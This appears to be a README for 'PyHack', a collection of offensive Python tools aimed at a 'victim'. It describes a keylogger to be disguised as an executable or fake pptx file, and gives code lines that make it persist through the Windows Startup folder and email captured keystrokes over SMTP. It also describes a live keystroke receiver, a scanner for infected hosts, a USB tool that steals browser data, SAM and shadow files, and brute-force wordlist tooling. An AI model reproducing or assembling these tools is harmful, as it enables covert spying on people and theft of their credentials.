 # PyHack
KEYLOGGER :

Keylogger is, obviously a keylogger. feel free to rename it, make a windows executable, false pptx file or whatever you want. This keylogger will send you emails of whatever the victim is tiping and, if you are in the same private network, provide a "live keylogger feature wich allows you to see what the vitcim is typing in live. 

This keylogger broadcasts the live on the port 8835, feel free to change it on the line :

self.socket.bind(('',8835))

Just modify the

shutil.copyfile("{}/keylogger.exe".format(os.getcwd()),"C:\\Users\\{}\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\keylogger.exe".format(getpass.getuser()))


line by removing keyllogger.exe to the file name. this line will copy the script itself on the startup file of windows and make it start at each startup of the computer.
please also modify these line with your own email address.


msg['From'] = "exemple@gmail.com"
msg['To'] = COMMASPACE.join("exemple@gmail.com")

smtp.login("exemple@gmail.com","exemple_password")
smtp.sendmail("exemple@gmail.com","exemple@gmail.com",msg.as_string())

and if you are not using gmail, please modify the smtp server addres on the line :

smtp = smtplib.SMTP('smtp.gmail.com')


KEYLOGGER_RECEVER : 

Keylogger recever is a script you use in the same private network than your vitctim's computer to access the live keylogger. But to access the live, you will need the local ip address of the vitctim's computer. use the "virus_scanner" script to perform a local network scan and get the ip address. by default the keylogger uses the 8835 port, if you haven't changed it this is the port you will need to specify. 

VIRUS_SCANNER :

Virus scanner is a script wich perform a network scan and show what ip addresses are infected. by default the keylogger uses the 8835 port, if you haven't changed it this is the port you will need to specify. This script may takes about 70/120 s to scan the entire network.

DATA CATCHER:

Data catcher is a script made to be run from an USB key, it simply copy copy all the sensitive data like Browsers data and SAM file from the computer to the USB key. Will not work if the app is not on her default installation path. Only the shadow file will be stolen on a linux machine.

WORDLIST_MAKER:

Simple wordlist maker, to make more specific bruteforce attacks.

DHCP SCANNER:

(needs scapy, to install it, simply use python -m pip install scapy[complete])
Simple script which discover all the hosts up of yoour network and their hostnames, you can pass "all" in object creation argument or a range of IP.
